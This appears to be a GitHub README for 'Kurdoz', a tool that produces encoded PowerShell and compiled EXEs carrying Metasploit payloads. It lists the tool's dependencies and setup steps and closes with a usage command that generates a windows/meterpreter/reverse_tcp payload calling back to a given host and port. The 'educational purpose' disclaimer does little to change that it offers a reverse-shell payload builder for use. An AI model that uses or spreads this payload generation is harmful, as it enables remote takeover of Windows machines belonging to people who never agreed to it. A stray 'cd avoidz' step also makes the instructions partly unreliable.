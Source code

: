 Kurdoz v 1.0

Author: ZANYAR MATRIX [ www.ZanyarMatrix.com ]
Legal Disclamer:

The author does not hold any responsibility for the bad use of this tool,
remember this is only for educational purpose.
Description:

This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 





Dependencies :

1 - metasploit-framework
2 - xterm
3 - MinGW32
4 - Monodevelop
Download/Config/Usage:

1º - Download the tool from github
     git clone https://github.com/ZanyarMatrix/Kurdoz.git

2º - Set setup script execution permitions
     cd avoidz
     chmod +x setup.sh

3°- Run setup script
     ./setup.sh == to check dependecies

4°- Run Kurdoz tool == example
 ./Kurdoz.rb == help command
 ./Kurdoz.rb -h 192.168.1.3 -p 676 -m windows/meterpreter/reverse_tcp -f temp1 == generate
